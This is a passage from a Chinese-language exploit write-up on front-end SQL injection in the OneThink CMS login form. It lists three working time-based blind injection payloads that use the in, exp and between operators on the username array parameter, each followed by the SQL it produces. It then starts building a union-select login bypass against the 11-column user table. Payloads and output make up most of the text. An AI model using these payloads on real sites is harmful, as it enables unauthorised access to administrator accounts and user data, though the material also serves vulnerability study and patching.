     username[]=in ('')) and (select 1 from (select sleep(4))x)--+-&password=2&verify=0x401

![8.png](./resource/OneThink前台注入/media/rId32.png)实际执行SQL语句

    SELECT * FROM `onethink_ucenter_member` WHERE ( `username` 
    IN (''))  AND (SELECT 1 FROM (SELECT SLEEP(4))X)-- - () ) LIMIT 1

**payload2-exp注入**

    username[0]=exp&username[1]=>(select 1 from (select sleep(3))x)&password=2&verify=0x401

![9.png](./resource/OneThink前台注入/media/rId33.png)

实际执行SQL语句

    SELECT * FROM `onethink_ucenter_member` WHERE (  (`username` 
        > (select 1 from (select sleep(3))x))  )

**payload3-between注入**

    username[0]=BETWEEN 1 and ( select 1 from (select sleep(2))x)))--+-&username[1]=&password=2&verify=0x401

![10.png](./resource/OneThink前台注入/media/rId34.png)

    SELECT * FROM `onethink_ucenter_member` WHERE (  (`username` 
        BETWEEN 1 AND ( SELECT 1 FROM (SELECT SLEEP(2))X)))-- - '' AND null ) ) LIMIT 1

ok，现在有了注入，我们就能使用联合查询，来绕过后台用户登录，实现\"万能密码\"的效果。但在这之前，还需要分析完整的登录逻辑。

登录逻辑分析
------------

使用[FileMonitor](https://github.com/ianxtianxt/FileMonitor)工具，得到后台登录处的SQL语句

    SELECT * FROM `onethink_ucenter_member` WHERE ( `username` = '1' ) LIMIT 1

而数据表`onethink_ucenter_member`的结构如下图，有11列，那么联合注入就需要构造11个参数`union select 1,2,3,4,...,11`

![11.png](./resource/OneThink前台注入/media/rId37.png)

